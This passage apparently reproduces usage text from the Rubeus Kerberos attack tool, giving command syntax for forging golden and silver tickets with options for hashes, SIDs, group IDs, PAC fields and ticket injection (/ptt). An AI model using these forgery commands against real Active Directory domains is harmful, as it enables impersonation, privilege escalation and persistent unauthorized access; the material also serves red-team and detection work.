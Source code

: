        Forge a golden ticket, setting values explicitly:
            Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </domain:DOMAIN> </sid:DOMAIN_SID> [/dc:DOMAIN_CONTROLLER] [/netbios:NETBIOS_DOMAIN] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information, using the KRBTGT key to calculate the KDCChecksum and TicketChecksum:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap </krbkey:HASH> [/krbenctype:DES|RC4|AES128|AES256] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information but explicitly overriding some values:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/dc:DOMAIN_CONTROLLER] [/domain:DOMAIN] [/netbios:NETBIOS_DOMAIN] [/sid:DOMAIN_SID] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/authdata] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information and including an S4U Delegation Info PAC section:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/s4uproxytarget:TARGETSPN] [/s4utransitedservices:SPN1,SPN2,...] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information and setting a different cname and crealm:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/cname:CLIENTNAME] [/crealm:CLIENTDOMAIN] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket, setting values explicitly:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> </domain:DOMAIN> </sid:DOMAIN_SID> [/dc:DOMAIN_CONTROLLER] [/netbios:NETBIOS_DOMAIN] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/authdata] [/cname:CLIENTNAME] [/crealm:CLIENTDOMAIN] [/s4uproxytarget:TARGETSPN] [/s4utransitedservices:SPN1,SPN2,...] [/printcmd] [outfile:FILENAME] [/ptt]
